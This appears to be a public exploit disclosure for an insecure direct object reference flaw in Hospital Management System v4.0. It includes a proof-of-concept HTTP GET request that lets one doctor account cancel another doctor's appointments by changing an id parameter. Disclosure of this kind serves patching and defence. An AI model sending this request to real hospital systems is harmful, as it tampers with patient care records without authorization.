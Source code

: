 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to cancel the appointment that is managed by other doctor(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /hospital/hms/doctor/appointment-history.php?id=3(CHANGE HERE)&cancel=update HTTP/1.1
...
```


